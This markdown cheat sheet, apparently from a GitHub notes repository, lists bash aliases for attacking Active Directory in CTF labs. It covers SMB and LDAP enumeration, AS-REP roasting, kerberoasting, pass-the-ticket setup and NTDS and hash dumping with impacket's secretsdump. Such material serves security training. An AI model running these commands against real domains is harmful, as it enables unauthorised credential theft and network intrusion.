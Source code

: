```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#cheatsheet"
  - "#active-directory"
  - "#ctf"
  - "#windows-enumeration"
  - "#security"
  - "#network-security"
  - "#programming"
  - "#python-scripting"
  - "#opensource"
  - "#red-team"
  - "#penetration-testing"
description:
author:
created: Sunday, June 29th 2025, 12:44:04 am
source:
title: Page 2 - AD
date modified: Sunday, June 29th 2025, 12:44:14 am
---
```


# Page 2 - AD

**Active Directory (AD)-related aliases** for CTF players doing **Windows domain enumeration**, **Kerberos abuse**, **SMB attacks**, and **privilege escalation**. These are particularly useful for **internal AD labs**, **HTB Active Directory boxes**, and **Red Team simulations**.

---

## 🏢 Active Directory Enumeration & Attacks

```bash
# 🔎 SMB & NetBIOS
alias smbshare='smbclient -L \\\\TARGET\\ -N'
alias smbconnect='smbclient \\\\TARGET\\SHARE'
alias smbuser='smbclient -L \\\\TARGET\\ -U'
alias enum4='enum4linux-ng -a'
alias enumuser='enum4linux -u USERNAME -p PASSWORD -a TARGET'
alias crackmap='crackmapexec smb'
alias smbmap='smbmap -H'
alias nbtscan='nbtscan -r TARGET_SUBNET'

# 🧠 LDAP & Kerberos
alias kerbrute='python3 ~/tools/kerbrute/kerbrute.py'
alias ldapenum='ldapsearch -x -H ldap://TARGET -s base'
alias adenum='python3 ~/tools/ADEnum/ADEnum.py'
alias bloodhound='bloodhound-python -u USER -p PASSWORD -dc-ip DC_IP -c all'

# 🗂️ Password & Hash Dumping
alias secretsdump='secretsdump.py DOMAIN/USER:PASSWORD@TARGET'
alias dumpntds='secretsdump.py -just-dc DOMAIN/USER:PASSWORD@DC_IP'
alias hashgrab='impacket-secretsdump'
alias ridbrute='rpcclient -U "" TARGET -N -c "enumdomusers"'

# 📜 Kerberos Ticket Attacks
alias asreproast='GetNPUsers.py DOMAIN/ -usersfile users.txt -no-pass -dc-ip TARGET'
alias kerberoast='GetUserSPNs.py DOMAIN/USER:PASSWORD -dc-ip TARGET -request'
alias tgt='klist'
alias renewtgt='kinit USERNAME@DOMAIN'
alias ptt='export KRB5CCNAME=FILE:/tmp/krb5cc_1337 && export KRB5_CONFIG=~/krb5.conf'

# 🛠️ Tools & Shortcuts
alias cme='crackmapexec'
impacket() {
  cd ~/tools/impacket && source venv/bin/activate
}
alias blood='cd ~/tools/BloodHound && neo4j console'
alias neo4jstart='sudo systemctl start neo4j'
alias neo4jstop='sudo systemctl stop neo4j'

# 🪓 Attack Chains
alias kerbcheck='nmap --script "krb5-enum-users" -p 88 TARGET'
alias noauthrpc='rpcclient -U "" -N TARGET'
alias authrpc='rpcclient -U USER%PASSWORD TARGET'

# 📚 Active Directory Cheatsheets
alias adhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/active-directory-methodology'
alias privhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation'
```

---

## ✅ Additional Tools Recommended

Make sure you have the following tools installed (some aliases reference them):

- [Impacket](https://github.com/SecureAuthCorp/impacket)
    
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
    
- [Kerbrute](https://github.com/ropnop/kerbrute)
    
- [BloodHound + Neo4j](https://github.com/BloodHoundAD/BloodHound)
    
- [Enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
    
- [ldapsearch (OpenLDAP)](https://linux.die.net/man/1/ldapsearch)
    
- [rpcclient (Samba)](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)

---

## 📥 Install and Activate

To include these in your setup:

### 1. Add to `~/.ctf_aliases` or `.bashrc`/`.zshrc`

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Then Source It:

```bash
source ~/.ctf_aliases
```

---

## 🧠 Learn More

- [HackTricks: Active Directory](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    
- [PayloadsAllTheThings – Windows & AD](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Active%20Directory%20Attack%20Cheatsheet)
    
- [Red Team Notes by RastaMouse](https://rastamouse.me/)

